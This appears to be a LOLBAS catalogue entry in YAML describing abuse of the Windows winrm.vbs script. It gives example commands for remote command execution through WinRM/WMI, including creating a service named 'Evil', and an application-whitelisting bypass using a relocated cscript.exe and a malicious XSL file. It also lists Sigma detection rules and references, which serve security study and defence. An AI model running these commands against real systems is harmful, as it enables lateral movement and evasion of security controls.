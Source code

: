 ```yaml
---
Name: winrm.vbs
Description: Script used for manage Windows RM settings
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: 'winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:http://target:5985'
    Description: Lateral movement/Remote Command Execution via WMI Win32_Process class over the WinRM protocol
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1216
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: CMD
      - Execute: Remote
  - Command: 'winrm invoke Create wmicimv2/Win32_Service @{Name="Evil";DisplayName="Evil";PathName="cmd.exe /k c:\windows\system32\notepad.exe"} -r:http://acmedc:5985 && winrm invoke StartService wmicimv2/Win32_Service?Name=Evil -r:http://acmedc:5985'
    Description: Lateral movement/Remote Command Execution via WMI Win32_Service class over the WinRM protocol
    Usecase: Proxy execution
    Category: Execute
    Privileges: Admin
    MitreID: T1216
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: CMD
      - Execute: Remote
  - Command: '%SystemDrive%\BypassDir\cscript //nologo %windir%\System32\winrm.vbs get wmicimv2/Win32_Process?Handle=4 -format:pretty'
    Description: Bypass AWL solutions by copying cscript.exe to an attacker-controlled location; creating a malicious WsmPty.xsl in the same location, and executing winrm.vbs via the relocated cscript.exe.
    Usecase: Execute arbitrary, unsigned code via XSL script
    Category: AWL Bypass
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: CMD
      - Execute: Remote
Full_Path:
  - Path: C:\Windows\System32\winrm.vbs
  - Path: C:\Windows\SysWOW64\winrm.vbs
Code_Sample:
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSScripts/Payload/Slmgr.reg
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSScripts/Payload/Slmgr_calc.sct
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_winrm_awl_bypass.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_winrm_execution_via_scripting_api_winrm_vbs.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/file/file_event/file_event_win_winrm_awl_bypass.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
Resources:
  - Link: https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  - Link: https://www.youtube.com/watch?v=3gz1QmiMhss
  - Link: https://github.com/enigma0x3/windows-operating-system-archaeology
  - Link: https://redcanary.com/blog/lateral-movement-winrm-wmi/
  - Link: https://twitter.com/bohops/status/994405551751815170
  - Link: https://posts.specterops.io/application-whitelisting-bypass-and-arbitrary-unsigned-code-execution-technique-in-winrm-vbs-c8c24fb40404
  - Link: https://www.fireeye.com/content/dam/fireeye-www/global/en/current-threats/pdfs/wp-windows-management-instrumentation.pdf
Acknowledgement:
  - Person: Matt Graeber
    Handle: '@mattifestation'
  - Person: Matt Nelson
    Handle: '@enigma0x3'
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Jimmy
    Handle: '@bohops'
  - Person: Red Canary Company cc Tony Lambert
    Handle: '@redcanaryco'
---
```

